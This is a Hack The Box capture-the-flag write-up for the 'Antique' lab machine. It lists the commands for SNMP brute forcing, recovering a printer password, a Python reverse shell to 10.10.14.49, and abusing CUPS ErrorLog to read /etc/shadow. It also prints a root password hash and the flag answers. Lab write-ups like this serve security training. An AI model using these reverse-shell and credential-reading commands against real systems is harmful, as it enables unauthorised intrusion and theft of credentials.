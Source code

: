 
#Antique - Hack The Box

## Info Gathering

### Nmap scan output on TCP and UDP

> 23/tcp open telnet
> 161/udp open  snmp    SNMPv1 server (public) 

### SNMPv1 - running Nmap brute force for community string creds

> nmap -sU -p161 --script snmp-brute 10.10.11.107

>PORT    STATE         SERVICE
>161/udp open|filtered snmp
>| snmp-brute: 
>|   <empty> - Valid credentials
>|   ANYCOM - Valid credentials
>|   cascade - Valid credentials
>|   ILMI - Valid credentials
>|   TENmanUFactOryPOWER - Valid credentials
>|   volition - Valid credentials
>|   MiniAP - Valid credentials
>|   secret - Valid credentials
>|   PRIVATE - Valid credentials
>|   public - Valid credentials
>|   rmonmgmtuicommunity - Valid credentials
>|   private - Valid credentials
>|   PUBLIC - Valid credentials
>|   snmpd - Valid credentials
>|_  snmp-Trap - Valid credentials

### Enumerating using `snpwalk`

> snmpwalk -v 2c -c public 10.10.11.107

> iso.3.6.1.2.1 = STRING: "HTB Printer"

### Connecting via telnet

> telnet 10.10.11.107

<p>Telnet service was password protected</p>

### Running Hydra brute force crack on port 23 Telnet of HTB Printer

> snmpwalk -v 2c -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0

> iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
> 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 

<p>P@ssw0rd@123!!123</p>

### Crack hex dump with

> echo "504073737730726440313233212131323313917181922232526273031333435373839424349505154575861657475798283869091949598103106111114115119122123126130131134135" | xxd -p -r 

<p>P@ssw0rd@123!!123</p>

### Setup NETCAT (NC) on port 1234 and use python3 for reverse shell

> nc -lvnp 1234

> exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.49",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

<p>This gains a shell as the `lp` user</p>

# User Flag

> 425b457984ab4354e104278bec3fb432

## Privilege Escalation

### Explorer running services

> netstat -ant

### Change error log location to /etc/shadow

> cupsctl ErrorLog="/etc/shadow"

### Curl the output of the error log

> curl http://localhost:631/admin/log/error_log?

<p>root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6btMs.oYtGQp7x4iDRlGCGJg8Ge9NO84P5lzjHN1WViD3jqX/VMw4LiR.:18760:0:99999:7:::</p>

### Change error log location to /root/root.txt

> cupsctl ErrorLog="/root/root.txt"

### Curl the output of that and get the flag

<p>c616b79f6ecd6cdbb627c7bfc03456db</p>
